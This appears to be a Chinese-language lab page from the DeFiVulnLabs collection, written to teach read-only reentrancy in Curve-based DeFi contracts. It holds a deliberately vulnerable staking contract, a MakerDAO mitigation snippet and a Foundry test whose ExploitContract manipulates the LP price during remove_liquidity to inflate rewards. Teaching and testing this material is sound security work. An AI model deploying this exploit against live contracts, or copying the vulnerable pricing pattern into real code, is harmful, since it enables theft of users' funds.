


# 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  
**名称：** 只读可重入性漏洞  
**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过通过一个安全的智能合约“A”的外部调用，调用攻击者合约的fallback()函数来实现的。  
通过这种漏洞，攻击者获得了在fallback()函数内对目标合约“B”执行代码的能力，而合约“B”与合约“A”间接相关。合约“B”从合约“A”中推导出LP代币的价格，使其容易收到操纵，并且通过重入攻击导致意外的价格变化。  

**修复建议：**  
避免在只读函数中进行任何的状态修改操作。  
**Makerdao的例子：**  
```
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟的价格奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略代码来转移奖励代币
        return reward;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 利用VulnContract合约只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 初始化vulnerable合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 批准VulnContract合约代表此合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约执行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 在移除流动性之前记录LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时收到的最低金额
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    //从Curve池中移除流动性时将触发的Fallback函数
    receive() external payable {
        // 在移除流动性期间记录LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```  
**红色框：** 攻击成功，价格被操控  
  
